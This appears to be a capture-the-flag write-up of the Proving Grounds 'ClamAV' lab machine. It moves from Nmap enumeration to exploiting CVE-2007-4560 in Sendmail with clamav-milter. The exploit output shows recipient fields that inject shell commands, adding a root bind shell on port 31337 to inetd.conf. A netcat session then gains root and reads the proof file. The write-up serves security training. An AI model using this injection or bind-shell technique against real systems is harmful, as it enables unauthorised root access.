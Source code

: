 ```yaml
---
title: Offensive Security Proving Grounds ClamAV Write-up
published: true
ayout: post
date: 2024-10-27 18:54 +0600
categories: [OSCP]
tags: [ctf,OSCP] 
---
```


# Machine Type: Linux

## Attack Walkthrough 


### Step 1: Service Enumeration with Nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.248.42
Host is up (0.10s latency).
Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-27T11:22:30-04:00
|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds

```


**Run Nmap Scan**: 
Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB**


**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.

### Step 2: Exploit Research for SMTP Service

1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
    
    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
    - **CVE**: CVE-2007-4560
    
    This exploit affects the version running on the target and is capable of remote command execution.
    
2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).


### Step 3: Executing the Exploit

1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.


```
perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00 
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.248.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 49RNc0PA004595 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```


**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.

```
c -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58 
(UNKNOWN) [192.168.248.42] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
xxxxxxxxxxxxxxxxxxxx

```

### Conclusion

By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.